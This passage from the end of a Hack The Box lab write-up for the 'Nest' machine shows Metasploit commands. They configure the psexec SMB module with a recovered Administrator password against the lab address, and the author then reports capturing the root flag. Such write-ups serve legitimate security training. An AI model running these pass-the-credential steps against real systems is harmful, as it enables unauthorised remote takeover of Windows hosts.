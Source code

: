 There we have it, our Administrator password! We can leverage this via `Metasploit` to get a Meterpreter session. We will use the `exploit/windows/smb/psexec` module.

Command:
`msf5> use exploit/windows/smb/psexec`

Here we only need to set our `rhost`, `smbpass` and `smbuser`.

Command:
`msf5> set rhosts 10.10.10.178`
`msf5> set smbpass XtH4nkS4Pl4y1nGX`
`msf5> set smbuser administrator`

{{< figure src="__GHOST_URL__/content/images/2020/01/nest_root_flag2.gif" >}}

There we have it, our root flag! This was quite a fun box, when done the intended way. Before it was patched you could simply use the finaly Metasploit module above to go right to system.. Oops!

Hopefully something was learned during this machine. If you found this write-up helpful, consider sending some respect my way: [My HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



